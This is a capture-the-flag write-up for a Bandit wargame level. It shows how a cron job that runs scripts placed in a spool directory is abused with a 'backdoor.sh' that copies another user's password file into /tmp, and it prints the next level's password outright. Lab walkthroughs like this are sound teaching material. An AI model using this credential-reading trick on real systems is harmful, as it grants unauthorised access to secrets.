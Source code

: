 ## Objective : 
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Solution : 
The password for next level is "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8".

## Explanation : 

### Step 1 : 
-  `ls` the directory`/etc/cron.d`

```bash
bandit23@bandit:/etc/cron.d$ ls  
clean_tmp         cronjob_bandit23  e2scrub_all  sysstat  
cronjob_bandit22  cronjob_bandit24  otw-tmp-dir 
```



-  Viewed the contents of `cronjob_bandit24` got an script `/usr/bin/cronjob_bandit24.sh`, read that file: 

 ```bash
 bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh    
#!/bin/bash  
  
myname=$(whoami)  
  
cd /var/spool/$myname/foo  
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"  
for i in * .*;  
do  
   if [ "$i" != "." -a "$i" != ".." ];  
   then  
       echo "Handling $i"  
       owner="$(stat --format "%U" ./$i)"  
       if [ "${owner}" = "bandit23" ]; then  
           timeout -s 9 60 ./$i  
       fi  
       rm -f ./$i  
   fi  
done
```

we can see in this script that,  it is going to `/var/spool/bandit24/foo` .
### Step 2 : 
so, I went to that directory, tried to `ls` but permission denied. 
therefore, created an `backdoor.sh` script : 

```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/b24_by_bandit23
```
and gave it permission to execute then waited for 1 minute to let `cron` run this script,
using the commands : 

```bash
bandit23@bandit:/var/spool/bandit24/foo$ echo '#!/bin/bash' > backdoor.sh  
bandit23@bandit:/var/spool/bandit24/foo$ echo 'cat /etc/bandit_pass/bandit24 > /tmp/b24  
_by_bandit23' >> backdoor.sh  
bandit23@bandit:/var/spool/bandit24/foo$ chmod +x backdoor.sh
```

### Step 3 : 
finally, read the file `/tmp/b24_by_bandit23` and voila we got the password !
